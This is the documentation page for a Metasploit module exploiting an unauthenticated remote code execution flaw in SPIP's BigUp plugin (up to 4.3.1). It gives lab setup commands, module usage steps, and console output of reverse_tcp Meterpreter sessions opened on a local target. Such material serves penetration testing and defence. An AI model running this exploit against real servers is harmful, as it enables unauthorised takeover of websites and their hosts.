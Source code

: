 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP
versions up to and including 4.3.1, specifically in the BigUp plugin.
The vulnerability occurs due to improper handling of file uploads in the
`lister_fichiers_par_champs` function, which can be exploited by crafting a malicious multipart form request.
This allows an attacker to inject and execute arbitrary PHP code on the server.

### Non-Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Download and set up SPIP version 4.3.1.
2. Use the built-in PHP server to host the SPIP instance.

#### Commands to Set Up the Vulnerable Environment:

```bash
wget https://files.spip.net/spip/archives/spip-v4.3.1.zip
mkdir spip && mv spip-v4.3.1.zip spip
cd spip && unzip spip-v4.3.1.zip
php -S 0.0.0.0:8000
```

- **SPIP Access URL:** `http://localhost:8000`
- **SPIP Version:** 4.3.1

After starting the PHP server, SPIP will be accessible at `http://localhost:8000`.

To complete the installation:

1. Navigate to `http://localhost:8000/ecrire` to access the SPIP web installation panel.
2. Follow the on-screen instructions to complete the setup.

## Verification Steps

1. Set up a SPIP instance using the commands provided above.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_bigup_unauth_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

- **FORM_PAGE**: This option allows you to specify a custom page on the target SPIP installation that contains a form.
By default, the module will automatically check the `login` and `contact` pages for forms,
but if you know of another page that contains a form, you can specify it here.
For example, if an article page contains a form, you can set this option like so:

```
set FORM_PAGE /spip.php?article1
```

This will instruct the module to look for the form data on `/spip.php?article1`.
If the specified page contains the vulnerable form, the module will proceed with the exploitation.
This option is particularly useful when the default pages (`login` and `contact`) do not contain the form or are not accessible.

## Scenarios

### Successful Exploitation Against Local SPIP 4.3.1

**Setup**:

- Local SPIP instance with version 4.3.1.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```bash
use exploit/multi/http/spip_bigup_unauth_rce
```
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (`TARGETURI`, `SSL`, etc.).
5. Launch the exploit:
```bash
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] The target appears to be vulnerable. The detected SPIP version (4.3.1) is vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 192.168.1.36:46322) at 2024-09-03 20:08:36 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > 
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] The target appears to be vulnerable. The detected SPIP version (4.3.1) is vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.36:58062) at 2024-09-03 20:09:20 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running using the manual setup for the exploit to work as expected.
